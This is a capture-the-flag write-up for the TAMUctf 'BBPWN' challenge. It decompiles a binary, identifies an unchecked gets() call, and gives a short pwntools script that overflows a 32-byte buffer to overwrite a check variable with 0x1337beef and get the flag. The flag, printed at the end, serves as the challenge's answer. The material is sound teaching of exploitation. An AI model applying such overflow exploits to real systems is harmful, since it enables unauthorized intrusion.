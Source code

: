 # BBPWN

## Description

> Welcome to pwnland!
> 
> `nc challenges.tamuctf.com 4252`

The corresponding binary is given.

## Solution

Let's reverse the code using [Ghidra](https://ghidra-sre.org/).

```c

/* WARNING: Function: __x86.get_pc_thunk.bx replaced with injection: get_pc_thunk_bx */

undefined4 main(void)

{
  undefined4 uVar1;
  int in_GS_OFFSET;
  char local_38 [32];
  int local_18;
  int local_14;
  undefined *local_10;
  
  local_10 = &stack0x00000004;
  local_14 = *(int *)(in_GS_OFFSET + 0x14);
  local_18 = 0;
  printf("Enter a string: ");
  fflush(stdout);
  gets(local_38);
  if (local_18 == 0x1337beef) {
    read_flag();
  }
  else {
    printf("\nThe string \"%s\" is lame.\n",local_38);
    fflush(stdout);
  }
  uVar1 = 0;
  if (local_14 != *(int *)(in_GS_OFFSET + 0x14)) {
    uVar1 = __stack_chk_fail_local();
  }
  return uVar1;
}
```

The `gets` function is dangerous and should not be used, it does not perform any check on the input length. We can therefore use a buffer overflow attack to overflow `local38` and write the correct value `0x1337beef` in `local_18`.

The payload is therefore 32 characters to fill `local38`, then `0x1337beef` (written in little endian `\xef\xbe\x37\x13`) to fill `local_18`.

This simple script does the job:

```python
from pwn import *

sh = remote('challenges.tamuctf.com', 4252)
print(sh.recvuntil("Enter a string:"))
sh.sendline(b'a'*32 + b'\xef\xbe\x37\x13')
sh.interactive()
```

Flag: `gigem{0per4tion_skuld_74757474757275}`